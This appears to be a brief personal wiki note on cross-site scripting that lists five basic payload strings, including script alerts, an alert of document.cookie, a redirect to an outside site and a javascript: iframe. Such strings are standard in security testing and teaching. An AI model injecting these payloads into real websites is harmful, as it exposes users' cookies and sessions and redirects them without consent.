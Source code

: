 [[Cross-Site-Scripting]]

# Payloads
1. `<script>alert("hacked")</script>
">`
2. `"><script>alert(document.cookie)</script>`
3. `<script>window.location="http://websitetoredirectto.com/"</script>`
4. `<input type="text" name="state" value="INPUT_FROM_USER">`
5. `<IFRAME SRC="javascript:alert("HackingMonks");"></IFRAME>`
